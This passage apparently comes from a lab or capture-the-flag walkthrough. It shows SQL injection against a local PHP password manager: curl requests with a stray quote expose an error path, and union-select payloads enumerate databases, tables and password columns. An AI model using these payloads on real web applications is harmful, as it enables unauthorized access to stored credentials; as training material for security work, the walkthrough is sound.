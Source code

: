 As this pulls data from a database, we can try some tests to check for **SQL Injection** vulnerabilities.

Adding single quote character after the values:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator'&table=passwords'"
```
```
<b>Fatal error</b>:  
Uncaught TypeError: mysqli_fetch_all(): Argument #1 ($result) must be of type mysqli_result, bool given in C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php:18

Stack trace:
#0 C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php(18): mysqli_fetch_all(false, 1)
#1 {main}
  thrown in <b>C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php</b> on line <b>18</b><br />
```

It results in an error message and discloses that the web application runs in the user directory of _Administrator_.

SQL Injection to dump _information_schema_ database:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator' union select schema_name from information_schema.schemata-- -&table=passwords"
```
```
(...)
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(18) "information_schema"
  }
  [2]=>
  array(1) {
    ["aes_key"]=>
    string(5) "bread"
```

Getting table and column names from the database _bread_:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator' union select concat(table_name,':',column_name) from information_schema.columns where table_schema='bread'-- -&table=passwords"
```
```
(...)
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(12) "passwords:id"
  }
  [2]=>
  array(1) {
    ["aes_key"]=>
    string(17) "passwords:account"
  }
  [3]=>
  array(1) {
    ["aes_key"]=>
    string(18) "passwords:password"
  }
  [4]=>
  array(1) {
    ["aes_key"]=>
    string(17) "passwords:aes_key"
```